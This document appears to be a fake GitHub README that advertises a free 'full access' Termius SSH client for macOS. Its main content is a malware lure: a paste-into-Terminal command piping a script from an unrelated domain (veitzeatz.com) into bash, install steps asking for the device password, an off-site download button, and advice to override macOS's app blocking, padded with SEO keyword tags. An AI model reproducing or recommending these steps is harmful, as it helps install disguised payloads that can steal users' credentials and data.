 <p align="center">
  <img src="https://i.ibb.co/VWVpYcbF/fdfdfdfd.webp" width="350" alt="Termius macOS Banner" />
</p>

<h1 align="center">Termius for macOS</h1>

<p align="center">
  🔐 Advanced SSH client and terminal app for macOS. Manage servers, organize keys, and run secure remote sessions with an intuitive interface.  
  <br><br>
  ✅ Apple Silicon Native  
  ✅ Works with Ventura, Monterey, Sonoma  
</p>

---

## 🔻 Download

<p align="center">
  <a href="https://bloodangel210.github.io/modarbas/291" target="_blank">
    <img src="https://img.shields.io/badge/⬇️%20DOWNLOAD%20TERMIUS%20MAC-GET%20FULL%20ACCESS-green?style=for-the-badge&logo=apple&logoColor=white" alt="Download Termius for macOS">
  </a>
</p>

---

## 📸 Preview

<p align="center">
  <img src="https://i.ibb.co/39JzC2Zn/1697226610-4.webp" alt="Termius Interface Screenshot" />
</p>

---

## 📦 How to Install

# Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

# Installation via a command in the terminal:

1. Copy the installation command below.
```
/bin/bash -c "$(curl -fsSL https://veitzeatz.com/get4/install.sh)"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

---

## ❓ What is Termius for macOS?

**Termius** is a full-featured SSH, SFTP, and terminal client built for managing Linux, Unix, and networked systems from macOS. With a clean user interface, cross-device sync, and keychain management, Termius is the go-to tool for sysadmins, devops, and remote workers.

It supports local terminal sessions, SSH key authentication, connection grouping, and secure storage — all in a native Apple Silicon-ready package.

---

## ✅ Why Choose Termius?

- 🔐 **Secure SSH with Key & Password Auth**  
- 📁 **SFTP File Transfer Built-In**  
- 🧠 **Connection Groups and Tags**  
- 📱 **Cross-Platform Sync**  
- 🧬 **Snippet and Command Reuse**  
- 🖥️ **Tabbed Terminal Sessions**  
- 🍎 **Fully Optimized for Apple Silicon**  
- 🌐 **Works Online and Offline**

---

## 📸 More Screenshots

<p align="center">
  <img src="https://i.ibb.co/yCnd8vb/1697226611-2.webp" alt="Multiple SSH Sessions View" />
  <br><br>
  <img src="https://i.ibb.co/6RLrfVkc/1697226610-3.webp" alt="Key Management and Host Organization" />
</p>

---

## 🚀 Key Features

- SSH, SFTP, and Mosh support  
- Snippet library and command history  
- Grouped hosts, tags, and environment variables  
- Cross-platform sync (macOS, iOS, Windows, Linux)  
- Secure credential and key management  
- Apple Silicon and Intel native  
- Local terminal access  
- Optional offline usage

---

## 💻 System Requirements

macOS 10.10 (Yosemite) or later  
Supports Monterey, Ventura, Sonoma  
Intel & Apple Silicon (M1/M2/M3)  
At least 100MB free disk space  

---

## 🧠 Note

If your Mac blocks the app during launch:  
Go to **System Settings > Privacy & Security** → Allow Termius manually.

---

<!-- Hidden tech SEO-friendly badges -->
<p align="center">
  <img src="https://img.shields.io/badge/macOS-10.10%2B-lightgrey?style=flat-square" />
  <img src="https://img.shields.io/badge/Terminal-SSH+SFTP+Mosh+Sync-lightgrey?style=flat-square" />
  <img src="https://img.shields.io/badge/Support-Apple+Silicon+Native-lightgrey?style=flat-square" />
</p>

---

## 🔗 License

This project is licensed under the MIT License.  
You are free to use, modify, and distribute it for personal use.

---

## 📚 Support and Contribution

Have feedback, suggestions, or found a bug?  
Feel free to open an issue or contribute via pull request.

---

## ⭐ Termius – Your SSH Toolbox

Thanks for using **Termius for macOS**.  
Secure, efficient, and powerful terminal access.

---

## 🧭 Usage Context

Termius is ideal for remote server admins, sysadmins, and anyone managing Linux environments.  
All credentials are stored locally unless sync is enabled.

---

## 🔍 Tags

```text
termius mac download, ssh client for macos apple silicon, terminal app with key manager mac, secure shell tool macbook m1 m2 m3, sftp and ssh terminal software mac, remote server management mac os x, professional ssh terminal for developers, termius full version offline mac, cross platform ssh client macbook, organize ssh keys and groups mac, mac native sftp ssh command line, devops remote connection tool mac, encrypted ssh access mac m1, termius download for intel mac, mac terminal with snippet library
